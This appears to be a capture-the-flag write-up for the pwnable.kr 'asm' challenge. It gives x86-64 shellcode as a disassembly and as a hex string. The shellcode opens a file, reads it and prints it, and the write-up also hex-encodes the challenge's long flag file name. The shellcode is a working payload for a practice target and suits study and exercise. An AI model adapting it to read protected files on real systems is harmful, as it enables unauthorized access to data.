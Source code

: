 For writing assembly program, I referenced this
https://cs.lmu.edu/~ray/notes/nasmtutorial/
https://cs.lmu.edu/~ray/notes/gasexamples/

I used online assembler
https://defuse.ca/online-x86-assembler.htm#disassembly

The Shellcode!!!
> 0:  48 c7 c0 02 00 00 00    mov    rax,0x2

> 7:  48 8d 3d 33 00 00 00    lea    rdi,[rip+0x33]        # 41 <_main+0x41>

> e:  49 89 e2                mov    r10,rsp

> 11: 0f 05                   syscall

> 13: 48 89 c7                mov    rdi,rax

> 16: 48 31 c0                xor    rax,rax

> 19: 48 c7 c2 00 10 00 00    mov    rdx,0x1000

> 20: 4c 89 d6                mov    rsi,r10

> 23: 0f 05                   syscall

> 25: 48 c7 c0 01 00 00 00    mov    rax,0x1

> 2c: 48 c7 c7 01 00 00 00    mov    rdi,0x1

> 33: 0f 05                   syscall

> 35: 48 c7 c0 3c 00 00 00    mov    rax,0x3c

>  3c: 48 31 ff                xor    rdi,rdi

> 3f: 0f 05                   syscall


this is this.
48C7C002000000488D3D330000004989E20F054889C74831C048C7C2001000004C89D6
0F0548C7C00100000048C7C7010000000F0548C7C03C0000004831FF
0F052f746d702f736a2f686969

the file name is
[hex(ord(c)) for c in "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file
_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooo
oooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000
000000000o0o0o0o0o0o0ong"]


> ['0x74', '0x68', '0x69', '0x73', '0x5f', '0x69', '0x73', '0x5f', '0x70', '0x77', '0x6e', '0x61', '0x62', '0x6c', '0x65', '0x2e', '0x6b', '0x72', '0x5f', '0x66', '0x6c', '0x61', '0x67', '0x5f', '0x66', '0x69', '0x6c', '0x65', '0x5f', '0x70', '0x6c', '0x65', '0x61', '0x73', '0x65', '0x5f', '0x72', '0x65', '0x61', '0x64', '0x5f', '0x74', '0x68', '0x69', '0x73', '0x5f', '0x66', '0x69', '0x6c', '0x65', '0x2e', '0x73', '0x6f', '0x72', '0x72', '0x79', '0x5f', '0x74', '0x68', '0x65', '0x5f', '0x66', '0x69', '0x6c', '0x65', '0x5f', '0x6e', '0x61', '0x6d', '0x65', '0x5f', '0x69', '0x73', '0x5f', '0x76', '0x65', '0x72', '0x79', '0x5f', '0x6c', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x6f', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x30', '0x6f', '0x30', '0x6f', '0x30', '0x6f', '0x30', '0x6f', '0x30', '0x6f', '0x30', '0x6f', '0x30', '0x6f', '0x6e', '0x67']
